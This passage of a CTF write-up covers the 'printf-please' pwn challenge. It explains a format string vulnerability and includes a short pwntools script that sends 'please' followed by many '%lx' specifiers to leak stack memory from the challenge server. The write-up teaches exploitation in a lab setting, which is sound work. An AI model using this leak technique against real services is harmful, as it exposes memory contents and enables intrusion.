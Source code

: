 **\*flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}**

### pwn/printf-please ![c](https://img.shields.io/badge/107_points-green)

#### Description

Be sure to say please...

#### Solution

This is the source code:  
![Alt text](./img/please.png?raw=true "Title")  
as you can see there is a format string vulnerability in line 31.  
The exploitation is very simple: we send in input "please" and a lot of %lx which print out the stuff on the stack.  
This is the input:

```
from pwn import *

r = remote ('mc.ax', 31569)
payload = b"please" + b"%lx-"*505
r.sendline(payload)
r.interactive()
```
